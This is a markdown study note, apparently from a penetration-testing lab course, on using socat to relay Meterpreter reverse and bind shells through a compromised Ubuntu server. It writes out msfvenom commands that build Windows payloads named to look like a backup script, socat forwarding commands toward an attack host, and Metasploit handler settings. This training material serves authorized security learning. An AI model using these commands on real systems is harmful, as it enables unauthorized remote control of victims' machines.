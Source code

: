# Socat Redirection with a Reverse Shell
- [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.
- It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.
#### Starting Socat Listener
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
- Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host i.e., our machine (10.10.14.18).
- Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server.
- We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.
#### Creating the Windows Payload
```shell-session
AnuragTaparia@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
- Keep in mind that we must transfer this payload to the Windows host.

#### Configuring & Starting the multi/handler
```shell-session
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run
```

# Socat Redirection with a Bind Shell

- Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host.
- In the case of bind shells, the Windows server will start a listener and bind to a particular port.
	- We can create a bind shell payload for Windows and execute it on the Windows host. 
	- At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. 
#### Creating the Windows Payload
```shell-session
AnuragTaparia@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
- We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.
#### Starting Socat Bind Shell Listener
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

- Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)
#### Configuring & Starting the Bind multi/handler
```shell-session
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp	
set RHOST 10.129.202.64
set LPORT 8080
run
```

- We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

